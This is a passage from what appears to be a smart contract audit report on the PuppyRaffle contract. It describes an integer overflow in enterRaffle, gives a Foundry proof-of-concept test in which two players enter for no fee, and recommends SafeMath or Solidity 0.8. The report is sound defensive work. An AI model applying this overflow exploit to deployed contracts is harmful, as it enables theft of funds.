 ```solidity
function enterRaffle(address[] memory newPlayers) public payable {
=>  require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    ...
```

To see for yourself, you can paste this function into `PuppyRaffleTest.t.sol` and run `forge test --mt testCanEnterManyAndPayLess`.
```solidity
function testCanEnterManyAndPayLess() public {
        uint256 entranceFee = type(uint256).max / 2 + 1; // half of max value
        puppyRaffle = new PuppyRaffle(
            entranceFee,
            feeAddress,
            duration
        );

        address[] memory players = new address[](2); // enter two players
        players[0] = playerOne;
        players[1] = playerTwo;

        puppyRaffle.enterRaffle{value: 0}(players); // user pays no fee
    }
```

This solidity test provides an example for an entranceFee that is slightly above half the max `uint256` value. The user can input two addresses and pay no fee. You could imagine the same working with lower base entrance fees and a longer address array.

**Impact** This is a critical high-severity vulnerability as anyone could enter multiple addresses and pay no fee, gaining an unfair advantage in this lottery. Not only does the player gain an advantage in the lottery. The player could also just refund all of his positions and gain financially.

**Recommendations** Revert the function call if `entranceFee * newPlayers.length` exceeds the `uint256` limit. Using openzeppelin's SafeMath library is also an option.   Generally it is recommended to use a newer solidity version as over-/underflows are checked by default in `solidity >=0.8.0`.

## Informational

## Gas 